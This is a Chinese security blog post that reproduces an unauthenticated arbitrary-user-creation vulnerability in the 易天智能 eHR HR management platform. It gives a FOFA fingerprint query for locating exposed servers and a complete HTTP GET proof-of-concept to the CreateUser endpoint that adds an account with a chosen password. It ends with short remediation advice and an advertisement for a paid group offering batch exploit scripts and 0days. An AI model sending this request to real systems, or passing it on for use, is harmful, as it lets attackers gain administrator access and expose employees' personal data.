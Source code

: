 #  「漏洞复现」易天智能eHR管理平台 CreateUser 任意用户添加漏洞   
冷漠安全  冷漠安全   2024-06-27 18:23  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/rPMtsalfZ0pFeDPJNnYaE7pYibBLQrUbLZwqelcotCqhYf0seBKfHroSUm8XuHyka5I3SmicWcJYUpZbFmxJCZ1Q/640?wx_fmt=gif&from=appmsg "")  
  
**0x01 免责声明**  
  
**免责声明**  
  
请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。工具来自网络，安全性自测，如有侵权请联系删除。本次测试仅供学习使用，如若非法他用，与平台和本文作者无关，需自行负责！！！  
  
0x02  
  
**产品介绍**  
  
易天智能eHR管理平台是一款功能全面、智能化的人力资源管理软件，旨在帮助企业提高人力资源管理效率和管理水平。该平台通过集成员工信息、薪酬管理、档案人事管理、绩效管理和招聘管理等多个模块，实现了人力资源管理的全面智能化管理。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rPMtsalfZ0qgPkKfIhsibOKwJSW17kicpiatXelAM3sWgjXd3XmRCINia3DLQddHrzWkS4VzQkIWiarXFEsIyZfsBxw/640?wx_fmt=png&from=appmsg "")  
  
0x03  
  
**漏洞威胁**  
  
易天智能eHR管理平台 /BaseManage/UserAPI/CreateUser 接口存在任意用户添加漏洞，未经身份验证的远程攻击者可以利用此漏洞添加任意管理员用户，导致攻击者可直接管理后台，造成信息泄露，使系统处于极不安全的状态。  
  
0x04  
  
**漏洞环境**  
  
FOFA:  
```
icon_hash="314318290" || icon_hash="1727609737"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rPMtsalfZ0qgPkKfIhsibOKwJSW17kicpiajtRGpDTEGWAJ5bCT9XjcdXp53XHw4Dib8nL3F0yWQdayM3ZquRwk4vg/640?wx_fmt=png&from=appmsg "")  
  
  
0x05  
  
**漏洞复现**  
  
POC  
```
GET /BaseManage/UserAPI/CreateUser?Account=hello&Password=123456&OuterID=998 HTTP/1.1
Host: your-ip
Accept: application/json, text/javascript, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/122.0.0.0 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rPMtsalfZ0qgPkKfIhsibOKwJSW17kicpia9B2a94DgnqZ6e1oJSVU13KSFQicZKS6XTMrpiaic7Jnsee2DrjB4z9mrg/640?wx_fmt=png&from=appmsg "")  
  
登录验证  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rPMtsalfZ0qgPkKfIhsibOKwJSW17kicpiavgyfjsAK199CesmOKgfKKU8icQic51ibtc5Jjlcxl2QzxIGJibHYqanDPA/640?wx_fmt=png&from=appmsg "")  
  
  
0x06  
  
**批量脚本验证**  
  
Nuclei验证脚本已发布  
知识星球：冷漠安全  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rPMtsalfZ0qgPkKfIhsibOKwJSW17kicpiaOwuhGV3R1JWNGTQHI6SdL4j4lFLEsRbjCX5btyxJvKtFs2HhUBmk7Q/640?wx_fmt=png&from=appmsg "")  
  
  
0x07  
  
**修复建议**  
  
关闭互联网暴露面或接口设置访问权限  
  
升级至安全版本  
  
0x08  
  
**加入我们**  
  
漏洞详情及批量检测POC工具请前往知识星球获取  
  
知识星球：冷漠安全交个朋友，限时优惠券：加入立减25星球福利：每天更新最新漏洞POC、资料文献、内部工具等  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/rPMtsalfZ0qgPkKfIhsibOKwJSW17kicpiaPthJQLvertkuN0tUKnbftf3Ic45dHqdkDXp55SzfgF5dILPcwKs4Gg/640?wx_fmt=png&from=appmsg "")  
  
  
「星球介绍」：  
  
本星球不割韭菜，不发烂大街东西。欢迎进来白嫖，不满意三天退款。  
  
本星球坚持每天分享一些攻防知识，包括攻防技术、网络安全漏洞预警脚本、网络安全渗透测试工具、解决方案、安全运营、安全体系、安全培训和安全标准等文库。  
  
本星主已加入几十余个付费星球，定期汇聚高质量资料及工具进行星球分享。  
  
  
「星球服务」：  
  
  
加入星球，你会获得：  
  
  
♦ 批量验证漏洞POC脚本  
  
  
♦ 0day、1day分享  
  
  
♦ 汇集其它付费星球资源分享  
  
  
♦ 大量的红蓝对抗实战资源  
  
  
♦ 优秀的内部红蓝工具及插件  
  
  
♦ 综合类别优秀Wiki文库及漏洞库  
  
  
♦ 提问及技术交流  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/rPMtsalfZ0qgPkKfIhsibOKwJSW17kicpiaFVqwY06GE8xbiaeoshlqMMP7ColSNoSG6KlD4og1icPaRibWQWy6fmZrg/640?wx_fmt=gif&from=appmsg "")  
  
  
